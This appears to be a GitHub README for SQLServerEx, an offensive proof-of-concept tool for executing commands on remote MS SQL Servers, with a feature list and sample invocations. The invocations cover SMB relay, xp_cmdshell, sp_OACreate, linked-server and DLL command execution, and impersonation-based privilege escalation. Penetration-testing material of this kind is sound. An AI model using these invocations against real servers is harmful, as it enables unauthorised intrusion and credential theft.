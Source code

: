
### MS SQL Server Command Execution

SQLServerEx is a PoC designed to execute commands on remote MS SQL Servers via publicly known vectors. The tool was inspired by Offensive Security courses so all kudos to them, I just put some dotNETs together.

Could be executed in both interactive and non-interactive modes providing command line arguments. Current functionality includes:

* Retrieves current user roles, linked servers and logins to be impersonated.
* Smb Relay Attack.
* Command execution via Linked Servers, Xp_cmdshell, sp_OACreate, invoking DLLs.
* PrivEsc via user impersonation.
* Reflective loading via exposed StartR method.

#### Some of the running modes:

Server enumeration under current domain user context or with supplied credentials:

```
SQLServerEx.exe -s SQLSERVER1 -d master
SQLServerEx.exe -s SQLSERVER1 -d master -u sa -p Password1
```

Command execution:

```
SQLServerEx.exe -s SQLSERVER1 -d master -e relay -r RESPONDER2
SQLServerEx.exe -s SQLSERVER1 -d master -e link -l LINKEDSQLSERVER3
SQLServerEx.exe -s SQLSERVER1 -d master -e xpshell -i sa
SQLServerEx.exe -s SQLSERVER1 -d master -e sp -i dbo
SQLServerEx.exe -s SQLSERVER1 -d master -e rundll -i sa
```